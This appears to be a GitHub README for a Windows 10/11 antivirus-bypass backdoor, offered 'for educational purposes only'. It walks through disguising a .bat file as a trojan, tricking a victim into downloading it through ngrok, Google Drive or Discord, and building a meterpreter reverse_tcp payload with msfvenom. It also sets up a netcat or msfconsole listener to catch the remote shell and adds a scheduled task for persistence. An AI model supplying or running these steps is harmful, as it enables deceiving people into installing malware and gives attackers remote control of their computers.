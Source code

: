 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
5. For persistence, modify the final line of code to make backdoor a scheduled task:
SCHTASKS /CREATE /SC DAILY /TN "FOLDERPATH\TASKNAME" /TR "C:\SOURCE\FOLDER\APP-OR-SCRIPT" /ST HH:MMExampleSCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "C:\Windows\System32\notepad.exe" /ST 11:00

